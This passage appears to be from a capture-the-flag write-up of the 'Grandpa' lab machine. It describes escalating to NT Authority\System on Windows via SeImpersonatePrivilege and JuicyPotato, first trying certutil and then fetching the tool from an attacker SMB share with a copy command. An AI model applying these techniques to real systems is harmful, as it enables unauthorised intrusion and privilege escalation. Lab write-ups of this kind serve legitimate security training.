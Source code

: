 We can see a very interesting token called `SeImpersonatePrivilege`. This token is used to impersonate a client after authentication. Whenever a user is assigned the `SeImpersontatePrivilege`, the user is permitted to run programs on behalf of that user to impersonate a client.

There are tools we can use like [JuicyPotato](https://github.com/ohpe/juicy-potato) that will exploit this token to escalate to `NT Authority\System`.

In order to run the tool on the target, we first need to upload it there, and transfering files on a Windows machine can sometimes be a bit clumsy.

The first binary we can try is `certutil`. This binary is available natively on Windows machines and its main goal is to manage certificates but pentesters and hackers alike diverted its original use to download malicious files on target. It's called *Living Off The Land*, find more information on the [LOLBAS](https://lolbas-project.github.io) project.

Unfortunately without really knowing why, the `certutil` binary was not downloading the executable on the target.

Lucky for us, there are other ways to upload files. The second method we can use is using the `SMB` protocol.

First we create a SMB share with `impacket-smbserver.py` to make our executable available and we pull the file from the server with `copy \\IP\share\filename`

![grandpa_smb](/assets/img/grandpa/grandpa_smb.png)

The file has successfully been transfered on the target.

We can now run our malicious executable.
